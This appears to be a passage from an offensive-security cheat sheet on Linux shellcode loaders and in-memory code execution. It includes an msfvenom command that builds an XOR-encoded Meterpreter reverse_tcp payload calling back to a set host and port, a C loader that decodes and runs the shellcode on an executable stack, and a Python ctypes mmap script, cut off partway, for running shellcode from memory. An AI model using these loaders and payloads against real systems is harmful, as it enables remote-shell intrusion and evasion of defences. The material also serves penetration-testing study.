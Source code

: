 ```c
// msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f c -o met.c --encrypt xor --encrypt-key a
unsigned char buf[] = 
"\x31\x33\...\x33\x37";

int main (int argc, char **argv)
{
    int bufsize = (int)sizeof(buf);
    for (int i = 0; i < bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
    int (*ret)() = (int(*)())buf;
    ret();
}
```
{% endcode %}

Compile allowing execution on stack:

```
$ gcc -o loader loader.c -z execstack
```
{% endtab %}
{% endtabs %}




## Linux In-Memory Code Execution

- [https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)



### Memory Manipulation with Python

- [https://github.com/jonatanSh/shelf](https://github.com/jonatanSh/shelf)
- [https://github.com/anvilsecure/ulexecve](https://github.com/anvilsecure/ulexecve)

Convert an ELF to PIC, inject it and run from memory:

```
$ gcc hello.c -fno-stack-protector -fPIE -fpic -static --entry=main -o hello
$ python3 -m shelf --input hello
$ python3 run_sc.py
```

{% code title="run_sc.py" %}
```python
# https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md#Python

from ctypes import (CDLL, c_void_p, c_size_t, c_int, c_long, memmove, CFUNCTYPE, cast, pythonapi)
from ctypes.util import find_library

PROT_READ = 0x01
PROT_WRITE = 0x02
PROT_EXEC = 0x04
MAP_PRIVATE = 0x02
MAP_ANONYMOUS = 0x20

with open('hellointel_x64.out.shell', 'rb') as f:
	sc = f.read()

libc = CDLL(find_library('c'))

mmap = libc.mmap
mmap.argtypes = [c_void_p, c_size_t, c_int, c_int, c_int, c_size_t]
mmap.restype = c_void_p
page_size = pythonapi.getpagesize()
```